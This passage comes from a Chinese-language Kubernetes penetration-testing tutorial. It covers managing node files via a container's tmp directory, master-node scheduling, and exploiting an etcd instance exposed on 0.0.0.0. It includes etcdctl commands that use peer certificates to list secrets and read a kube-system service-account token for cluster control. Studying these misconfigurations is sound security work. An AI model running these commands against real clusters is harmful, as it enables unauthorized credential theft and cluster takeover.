 之后我们便可以通过该容器的 tmp 目录管理 node 节点的文件。

![](assets/1700701621-6311747ccbc4e721a6b9f833e033e83e.png)

![](assets/1700701621-3e1aef1acb868d2502f7828b3a62a34b.png)

值得注意的是，为了集群的稳定性和安全性要求，在 Kubernetes 默认设计的情况下 Pod 是不能调度到 master 节点的，但如果用户自行设置关闭了 Master Only 状态，那么我们可以直接在 master 节点新建 Pod 更直接的控制 master node；不过目前各大主流云产商上的 Kubernetes 集群服务，都会默认推荐让 Master 节点由云厂商托管，更加加剧了 Master 节点渗透和控制的难度。

## 7.5, etcd

etcd 被广泛用于存储分布式系统或机器集群数据，其默认监听了 2379 等端口，如果 2379 端口暴露到公网，可能造成敏感信息泄露，本文我们主要讨论 Kubernetes 由于配置错误导致 etcd 未授权访问的情况。Kubernetes 默认使用了 etcd v3 来存储数据，如果我们能够控制 Kubernetes etcd 服务，也就拥有了整个集群的控制权。

在 Kubernetes 中用户可以通过配置/etc/Kubernetes/manifests/etcd.yaml 更改 etcd pod 相关的配置，倘若管理员通过修改配置将 etcd 监听的 host 修改为 0.0.0.0，则通过 ectd 获取 Kubernetes 的认证鉴权 token 用于控制集群就是自然而然的思路了，方式如下：

首先读取用于访问 apiserver 的 token

export ETCDCTL\_API=3  
export ETCDCTL\_CERT=/etc/kubernetes/pki/etcd/peer.crt  
export ETCDCTL\_CACERT=/etc/kubernetes/pki/etcd/ca.crt  
export ETCDCTL\_KEY=/etc/kubernetes/pki/etcd/peer.key  
etcdctl get / —prefix —keys-only | grep /secrets/kube-system/clusterrole  
etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-jmrzx

![](assets/1700701621-b35e6b04ded26d458da208c281ac0f18.png)
